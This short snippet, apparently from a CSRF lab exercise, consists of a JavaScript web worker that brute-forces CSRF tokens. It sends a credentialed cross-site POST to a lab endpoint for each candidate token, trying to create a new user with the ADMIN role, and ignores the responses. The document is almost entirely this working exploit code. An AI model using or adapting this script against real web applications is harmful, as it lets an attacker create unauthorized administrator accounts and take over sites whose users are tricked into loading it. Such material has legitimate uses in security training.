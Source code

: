### JS workers
```js
self.addEventListener('message', function (e) {
   var tokens = e.data.tokens;

   function bruteLoop(TList) {
      for (var i = 0; i < TList.length; i++) {
         console.info("Testing: " + TList[i]);
         XHRPost(TList[i]);
      }
      Terminator();
   }

   function XHRPost(tVal) {
      var http = new XMLHttpRequest();
      var url = "http://5.csrf.labs/add_user.php";

      var token = tVal;

      params = {
         "name": "luffy",
         "surname": "joyboy",
         "email": "luffy@hacker.site",
         "role": "ADMIN",
         "submit": "",
         "CSRFToken": token,
      };

      http.open("POST", url, true);
      http.withCredentials = 'true';

      // Send the proper header information along with the request
      http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
      http.onreadystatechange = function () {
         if (http.readyState > 1) { // We don't care about responses
            http.abort();
         }
      };

      // Serialize the data without using JQuery 
      queryParams = Object.keys(params).reduce(function (a, k) {
         a.push(k + '=' + encodeURIComponent(params[k]));
         return a
      }, []).join('&');
      http.send(queryParams);
   }

   function Terminator() {
      self.postMessage("macacos me mordam");
      self.close();
      return;
   }

   // Brute Loop
   bruteLoop(tokens);
}, false);
 
```

